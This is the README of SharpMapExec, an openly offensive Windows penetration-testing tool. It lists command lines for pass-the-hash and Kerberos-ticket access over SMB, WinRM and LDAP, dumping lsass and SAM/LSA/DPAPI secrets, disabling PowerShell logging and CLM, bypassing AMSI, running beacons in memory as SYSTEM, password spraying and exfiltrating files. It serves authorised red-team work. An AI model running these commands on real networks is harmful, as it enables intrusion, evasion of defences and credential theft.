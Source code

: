 # SharpMapExec

A sharpen version of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec). This tool is made to simplify penetration testing of networks and to create a swiss army knife that is made for running on Windows which is often a requirement during insider threat simulation engagements.



Besides scanning for access it can be used to identify vulnerable configurations and exfiltrate data. The idea for the data exfiltration modules is to execute the least amount of necessary code on the remote computer. To accomplish this, the tool will download all the secrets to the loot directory and parse them locally.



You can specify if you want to use Kerberos or NTLM authentication. If you choose Kerberos, the tool will create a sacrificial token and use [Rubeus](https://github.com/GhostPack/Rubeus) to import/ask for the ticket. If NTLM is specified, the tool will use [SharpKatz](https://github.com/b4rtik/SharpKatz) `SetThreadToken` or  `LogonUser` impersonation.

```
SharpMapExec.exe
  usage:

    --- Cim ---
        Need plaintext password or the /impersonate flag
        SharpMapExec.exe ntlm cim /user:USER /password:PASSWORD /computername:TARGET

       Available Cim modules
          /m:enable_winrm                             (Runs Enable-PSRemoting -Force)
          /m:disable_winrm                            (Runs Disable-PSRemoting -Force)
          /m:disable_pslockdown                       (Modify __PSLockdownPolicy registry to disable CLM)
          /m:disable_pslogging                        (Modify registry to disable PowerShell Logging)
          /m:check_pslockdown                         (Check __PSLockdownPolicy registry)
          /m:check_pslogging                          (Check PowerShell Logging registry)

    --- Reg32 ---
        SharpMapExec.exe ntlm reg32 /user:USER /ntlm:HASH /computername:TARGET
        SharpMapExec.exe kerberos reg32 </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       Reg32 modules
          /m:disable_pslockdown                       (Modify __PSLockdownPolicy registry to disable CLM)
          /m:check_pslockdown                         (Check __PSLockdownPolicy registry)
          /m:check_pslogging                          (Check PowerShell Logging registry)

    --- Smb ---
        SharpMapExec.exe ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos smb </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       Smb modules
          /m:shares                                   (Scan for accessible Smb shares)

    --- WinRm ---
        SharpMapExec.exe ntlm winrm /user:USER /password:PASSWORD /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos winrm </user:USER /rc4:HASH  /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       WinRm modules
          /m:exec /a:whoami                           (Invoke-Command)
          /m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
          /m:comsvcs                                  (Dump & parse lsass)
          /m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
          /m:assembly /p:Rubeus.exe /a:dump           (Execute local C# assembly in memory)
          /m:assembly /p:beacon.exe /system           (Execute local C# assembly as System in memory)
          /m:assembly /p:getMailBox.exe /delegwalk    (Execute local C# assembly in all unique delegation processes in memory)
          /m:download /path:C:\file /destination:file (Download file from host)
          /m:upload   /path:C:\file /destination:file (Upload file to host)

    --- Domain ---
        SharpMapExec.exe kerbspray /users:USERS.TXT /passwords:PASSWORDS.TXT /domain:DOMAIN /dc:DC
        SharpMapExec.exe tgtdeleg

    --- Ldap ---
        SharpMapExec.exe ntlm ldap /user:USER /password:PASSWORD /domain:DOMAIN /dc:DC /m:MODULE
        SharpMapExec.exe kerberos ldap </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC /m:MODULE | /ticket:TICKET.Kirbi>

       Ldap modules
          /m:spraydata                                (Download user and password policy)
```

### Smb

Can be used to scan for admin access, accessible Smb shares, Smb version and relay signing.

````
/m:shares                                  (Scan enumerated shares for access)
````

### WinRm

The beast. It has built-in Amsi bypass, JEA language breakout, JEA function analysis. Can be used for code execution, scaning for PsRemote access, vulnerable JEA endpoints, and data exfiltration.

````
/m:exec /a:whoami                           (Invoke-Command)
/m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
/m:comsvcs                                  (Dump Lsass Process)
/m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
/m:assembly /p:Rubeus.exe /a:dump           (Execute Local C# Assembly in memory)
/m:assembly /p:beacon.exe /system           (Execute Local C# Assembly as System in memory)
/m:download /path:C:\file /destination:file (Download File from Host)
````

### Domain

Currently supports domain password spraying and to create a TGT for the current user that can be used with the `/ticket` parameter to get the current context.

### Ldap

Download necessary data before pw spraying

```
/m:spraydata                                (Download user and password policy)
```



### Example usage

For easy or mass in-memory execution of C# assemblies

![](images/mass_assembly.png)

Kerberos password spraying then scanning for local admin access

![](images/spray+admin.png)

This project supports scanning JEA endpoints and will analyze source code of non default commands and check if the endpoint was not configured for `no-language` mode.

![](images/jea.png)

Discover local admin password reuse with an NT hash.

![](images/localadmin.png)

Mass dump Lsass process with built-in Microsoft signed DLL and saves it to the `loot` folder

![](images/lsassdump.png)

Executes in all delegation processes sorted by unique by users

![](images/delegwalk.png)

Scan for SMB signing and SMBv1

![](images/smbvscan.png)

And much more!

Some scenarios with Kerberos will require you to sync your clock with the DC and set the DNS

```powershell
net time \\DC01.hackit.local /set
Get-NetAdapter ethernet0* | Set-DnsClientServerAddress -ServerAddresses @('192.168.1.10')
```





### Acknowledgments

Projects that helped or are existing in this tool

* [Rubeus](https://github.com/GhostPack/Rubeus)              [@Harmj0y](https://twitter.com/harmj0y)
* [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)      [@Harmj0y](https://twitter.com/harmj0y)
* [SharpKatz](https://github.com/b4rtik/SharpKatz)         [@b4rtik](https://twitter.com/b4rtik)
* [Amsi.Fail](https://github.com/Flangvik/AMSI.fail)           [@Flangvik](https://twitter.com/Flangvik)
* [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump) [@G0ldenGunSec](https://twitter.com/G0ldenGunSec)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)  [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
* [Pingcastle ](https://github.com/vletoux/pingcastle)         [@mysmartlogon](https://twitter.com/mysmartlogon)
* [SharpSpray](https://github.com/jnqpblc/SharpSpray)

